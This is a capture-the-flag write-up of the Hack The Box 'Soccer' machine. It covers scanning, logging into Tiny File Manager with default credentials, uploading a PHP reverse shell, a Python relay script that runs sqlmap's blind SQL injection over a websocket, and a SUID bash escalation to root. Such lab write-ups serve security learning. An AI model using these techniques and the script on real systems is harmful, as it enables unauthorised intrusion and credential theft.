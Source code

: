 # Initial scanning
First I ran an nmap scan to check for open ports and available services on this machine
```
karim@alpacino:~/Desktop/htb$ nmap -sC -sV 10.10.11.194
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-19 20:05 EET
Nmap scan report for 10.10.11.194
Host is up (0.068s latency).
Not shown: 978 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
```
so there are three ports open which are 22 for ssh and 9091 for xmltec-xmlmail service which will be usefull in the future and xmltec-xmlmail80 for http and its redircting me to soccer.htb so I added the ip in my **/etc/hosts** file to access the website
![image1](img/1.png)

and I was to able to access the website. so I ran a gobsuter scan to find hidden directories  in the website
```
karim@alpacino:~/Desktop/htb$ sudo gobuster dir -u http://soccer.htb -w /opt/wordllists/dirbuster/directory-list-2.3-medium.txt 
[sudo] password for karim: 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/wordllists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/19 20:33:16 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```
gobuster found a directory called tiny so I opened a login page appeared to me
![image1](img/2.png)
After a little research I found that tiny is a file manger so I viewed the source code to find if there is a version number and I found it and it was "**2.4.3**"
![image1](img/3.png)
so I searched online for the default credentials of this version and I found "**admin:admin@123**" so I tried it and worked and I got logged in as admin user
# Initial Foothold
I was prompted to a file managment system with the  ability to upload file
![image1](img/4.png)
so I tried to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) but it was only uploaded succefully in the **/var/www/html/tiny/uploads** directory and I obtained a reverse shell
![image1](img/5.png)]
I tried to cat the user.txt file in the /home/player directory to obtain the flag but I didn't have the permission to read the file
```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```
so I searched in the default folder for something odd and I found **/etc/nginx** which inticades that there is an nginx server running so I cded to /etc/nginx/sites-enabled and I found **soc-player.htb** file and I found that there is another server running with another subdomain
```
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb 
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}

}
```
so I added the subdomain to my **/etc/hosts** file and I opened it in my browser
![image1](img/6.png)
And I found that it has a signup functionality and a functionality to book tickets to matches so I created an account and went to the tickets booking page
![image1](img/7.png)
and as you can see I tried sql injection and it appeared that this form is vurnable to blind sql injection so I fired up burp suite to analyze the application and to know what technology it is using.
![image1](img/10.png)
So I discovered that it run websocket and unfortunatly You can't use sqlmap map with websockets directly so searches online and found [this article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that explains how to use sqlmap with websockets.
so I used the script in the article and modified it to be compatable with our machine and here is the modified script
```
from http.server import SimpleHTTPRequestHandler  
from socketserver import TCPServer  
from urllib.parse import unquote, urlparse  
from websocket import create_connection  
  
ws_server = "ws://soc-player.soccer.htb:9091"  
  
def send_ws(payload):  
 ws = create_connection(ws_server)  
 # If the server returns a response on connect, use below line   
 #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here  
   
 # For our case, format the payload in JSON  
 message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure  
 data = '{"id":"%s"}' % message  
  
 ws.send(data)  
 resp = ws.recv()  
 ws.close()  
  
 if resp:  
  return resp  
 else:  
  return ''  
  
def middleware_server(host_port,content_type="text/plain"):  
  
 class CustomHandler(SimpleHTTPRequestHandler):  
  def do_GET(self) -> None:  
   self.send_response(200)  
   try:  
    payload = urlparse(self.path).query.split('=',1)[1]  
   except IndexError:  
    payload = False  
      
   if payload:  
    content = send_ws(payload)  
   else:  
    content = 'No parameters specified!'  
  
   self.send_header("Content-type", content_type)  
   self.end_headers()  
   self.wfile.write(content.encode())  
   return  
  
 class _TCPServer(TCPServer):  
  allow_reuse_address = True  
  
 httpd = _TCPServer(host_port, CustomHandler)  
 httpd.serve_forever()  
  
  
print("[+] Starting MiddleWare Server")  
print("[+] Send payloads in http://localhost:8081/?id=*")  
  
try:  
 middleware_server(('0.0.0.0',8081))  
except KeyboardInterrupt:  
 pass
```
and I ran sqlmap and the following credentials appeared
```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```
so I logged in via ssh to the machine as player user and I was able to read the user flag
# Privilage Escalation
so I uploaded [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) script and ran it on the machine
![image1](img/11.png)
so I ran the /usr/bin/bash script with the following command
```
bash-5.0$ /usr/bin/bash -p
```
so that's how I was able to be the root user
![[Screenshot from 2023-01-21 18-32-15.png]]
# conclusion
In the end of this writeup I would like to share my thoughts about this machine.
I think this machine is a good one and if you solve it you will learn multipe things like automating websocket sql injection and I think that the creator of this machine should be respected.